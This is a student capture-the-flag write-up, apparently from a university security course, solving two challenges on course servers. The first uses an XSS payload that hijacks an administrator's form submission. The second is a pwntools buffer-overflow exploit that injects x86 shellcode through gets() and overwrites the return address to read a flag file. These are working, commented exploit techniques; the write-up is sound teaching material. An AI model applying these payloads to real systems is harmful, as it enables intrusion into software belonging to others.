






## CTF 10

- [ctf-fsi.fe.up:5002](http://ctf-fsi.fe.up.pt:5002)
- [ctf-fsi.fe.up:4001](http://ctf-fsi.fe.up.pt:4001)

### Challenge 1




Analyzing the code of the webpage we noticed that there were 2 disabled forms,
one of them appears to give the flag when submitted, the other is the form the
administrator calls to "mark a request as read"

```html
<form method="POST" action="" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled>
        
    </div>
</form>

<form method="POST" action="/request/ab868b9e0c451ccc6d6b8c877198b4851c117a32/mark_as_read" role="formRead">
    <div class="submit">
        
        <input type="submit" id="markAsRead" value="Mark request as read" disabled>
        
    </div>
</form>
```

There is a XSS vulnerability that can be used in order to approve the request.
To obtain approvement, we insert in the input box the following javascript code
(this code should be inserted inside an html script tag, without comments and
in one line).

```js
document.querySelector('form[role="formRead"]').addEventListener('submit', function(e){
  // ignore the default action (submiting the form saying the request was evaluated)
  e.preventDefault(); 

  // submit the form that gives the flag instead
  document.querySelector('form[role="form"]').submit();
});
```

With the previous code, we were able to get access to the flag by altering the
action of the submission of the markAsRead form, so that the administrator
submits the flag form instead.



### Challenge 2

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

In the source code, we can find the vulnerability in the line `gets(buffer);`.
This function is vulnerable to a buffer overflow.



From the output of checksec, we can see that some security mechanisms are disabled.
Since there aren't any canaries and NX (No eXecute) is disabled, which means
that code in memory can be executed, nothing is stopping us from injecting
malicious code into the buffer (which we control the input of). Then by
modifying the return address to jump to the location of the buffer, our code
will be executed.

When accessing the address given we found out that the only thing we were
missing (the buffer address) is given to us. Since this changes with every
access our script has to read this value during runtime, and then use it to
replace the RA.



Knowing where the buffer's location in memory is, we created the following
exploit that obtains the flag inside the file flag.txt by a cat operation:

```python
import pwn

p = pwn.remote('ctf-fsi.fe.up.pt',4001)
address = p.recvuntil(b'Give').split()[-2][:-1].decode('latin-1')
p.recv()

address = int(address,16).to_bytes(4,byteorder='little')

# NOP instructions aren't necessary
payload = bytearray(0x00 for _ in range(112))

# Shelcode calls "cat flag.txt"
# https://masterccc.github.io/tools/shellcode_gen/
shellcode = "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x66\x6c\x61\x67\x89\xe1\x50\x51\x53\x89\xe1\x31\xc0\x83\xc0\x0b\xcd\x80".encode('latin-1')

# The exact address of the buffer that stores our input is known this means we don't have to use any NOP instructions
# The function can return immediately to the shellcode, we just have to place it at the start of the buffer
payload[0:len(shellcode)] = shellcode

# Overwrite Return Address pointer with the address of the variable storing our input
payload[108:112] = address

p.sendline(payload)
p.interactive()
```

Running the script we get the flag:


